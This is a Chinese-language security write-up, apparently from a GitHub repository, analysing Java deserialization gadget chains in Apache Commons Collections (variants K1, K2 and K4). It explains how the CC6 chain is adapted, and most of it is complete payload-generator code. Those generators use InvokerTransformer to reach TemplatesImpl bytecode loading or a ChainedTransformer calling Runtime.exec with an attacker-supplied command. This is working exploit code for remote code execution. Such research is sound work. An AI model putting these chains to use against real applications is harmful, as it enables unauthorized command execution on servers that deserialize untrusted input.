



# CommonsCollectionsK

## 0x01 CommonsCollectionsK1、K2、K4

CC 的 Gadget 分析到现在，其实做的事情简单来说就是对 kick-off、chain、sink 的再组合，不断的操控 compare() 方法，见缝插针去构造我们期望的反射方法，比如 ChainedTransformer 的命令执行可以换成 TemplatesImpl 来加载字节码。

所以这条链的分析换一种表述方式，结合自己的思考方式来讲。

以 CC6 为例，如果我们期望保留这条 gadget 的后半部分，只想将 ChainedTransformer 换为 TemplatesImpl 去加载字节码，那么思路就是：

1. 通过 `Gadgets.createTemplatesImpl(command);` 创建一个 TemplatesImpl
2. 期望任意执行 TemplatesImpl 的某个方法来触发最终的 getTransletInstance()
3. 对第2步提出思考，任意执行方法这几个字是重点，联想到通过 InvokerTransformer 来实现

因为我们是在 CC6 的基础上修改，所以我们甚至可以先写出 gadget 再去验证代码

```
HashMap.readObject()
    TiedMapEntry.hashCode()
        LazyMap.get()
            InvokerTransformer.transform()
                TemplatesImpl.newTransformer()
```

前半段最终执行到 `LazyMap.get()` ，其中的 key 对象是通过 HashMap 传递的一个 TiedMapEntry 对象，将这个 key 对象传入通过 `factory.transform(key);` 来执行。

这里比较复杂，其实一句话来说就是 我们现在可以执行任意 Transformer 的 transform() 方法，并且参数可控

```
HashMap.readObject()
    TiedMapEntry.hashCode()
        LazyMap.get()
```



提到任意执行首先想到的就是 InvokerTransformer 这个类，iMethodName 可以反射构造，input 对象可以通过上述传入，所以我们现在的期望就是

```
input 为 templates
iMethodName 为 newTransformer
```



所以为了实现前半段的构造，templates 对象需要作为 TiedMapEntry 类的 key 来传递。



最终 CommonsCollectionsK1 构造如下：

```java
public Map getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
    HashMap<String, String> innerMap = new HashMap<>();
    Map m = LazyMap.decorate(innerMap, transformer);
    Map<Object, Object> outerMap = new HashMap<>();
    TiedMapEntry tied = new TiedMapEntry(m, templates);
    outerMap.put(tied, "t");

    innerMap.clear();

    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
    return outerMap;
}
```

CommonsCollectionsK2 同理，只不过是 commons-collections4:4.0 的 LazyMap.lazyMap() 实现

```java
public Map getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
    HashMap<String, String> innerMap = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(innerMap, transformer);

    Map<Object, Object> outerMap = new HashMap<>();
    TiedMapEntry tied = new TiedMapEntry(lazyMap, templates);
    outerMap.put(tied, "t");
    innerMap.clear();

    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
    return outerMap;
}
```

CommonsCollectionsK4 和 K2 本质上是同一条链，只不过最后用的 ChainedTransformer 形式，实际上代码冗余。

```java
@Override
    public Map getObject(String command) throws Exception {
        final String[] execArgs = new String[]{command};
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};

//        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        HashMap<String, String> innerMap = new HashMap<>();
        LazyMap lazyMap = LazyMap.lazyMap(innerMap, transformerChain);

        Map<Object, Object> outerMap = new HashMap<>();
        TiedMapEntry tied = new TiedMapEntry(lazyMap, "Whoopsunix");
        outerMap.put(tied, "t");
        innerMap.clear();

//        Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return outerMap;
    }
```
